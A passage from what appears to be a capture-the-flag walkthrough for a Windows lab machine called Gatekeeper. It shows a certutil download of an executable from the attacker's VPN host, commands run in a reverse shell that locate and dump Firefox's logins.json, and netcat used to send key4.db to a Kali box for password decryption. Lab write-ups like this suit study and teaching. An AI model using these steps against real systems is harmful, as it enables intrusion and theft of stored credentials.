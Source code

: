 `certutil -urlcache -split -f http://$VPN_IP/gatekeeper.exe gatekeeper.exe`

didn't work- program ran as gatekeeper user, not admin.

### Attempt: Firefox.lnk

checking files for clues, see this `Firefox.lnk` file:

```bash
type Desktop\Firefox.lnk
LF  j7j7        DGYr?DUk0~tCFSF1P AppDatatY^Hg3(ߟgVAGkﾕPP*AppDataBL1P LocalﾕPP*TULocald1P MOZILL~1ﾕPP*sMozilla Firefox^2P5  firefox.exeﾕPP*sfirefox.exe-8_KԾ:C:\Users\'\\GATEKEEPER\Usersnatbat\AppData\Local\Mozilla Firefox\firefox.exe,..\AppData\Local\Mozilla Firefox\firefox.exe-C:\Users\natbat\AppData\Local\Mozilla Firefox
                                                                                            |IJHK`Xgatekeeperj 8   }'t1j 8  1SPSXFL8C&mm.S-1-5-21-663372427-3699997616-3390412905-1003b1SPSU(Ly9K-

                                                                              54B4832DCE3D0EB51
```

Get to thinking "Firefox logins", google how to find firefox profiles and possible logins:

In our reverse shell:

```bash
dir logins.json /s /p                                                                                               
dir logins.json /s /p                                                                                               
 Volume in drive C has no label.                                                                                    
 Volume Serial Number is 3ABE-D44B                                                                                  
                                                                                                                    
 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release                     
                                                                                                                    
05/14/2020  09:43 PM               600 logins.json
```

so we've found the profile folder, and the `logins.json` file:

```bash
type logins.json
{"nextId":2,"logins":[{"id":1,"hostname":"https://creds.com","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECL2tyAh7wW+dBAh3qoYFOWUv1g==","encryptedPassword":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECIcug4ROmqhOBBgUMhyan8Y8Nia4wYvo6LUSNqu1z+OT8HA=","guid":"{7ccdc063-ebe9-47ed-8989-0133460b4941}","encType":1,"timeCreated":1587502931710,"timeLastUsed":1587502931710,"timePasswordChanged":1589510625802,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>
```

At first I was told we just need a couple of files from, the `key4.db` and `logins.json` and I used nc.exe to upload `key4.db` file to kali box. 
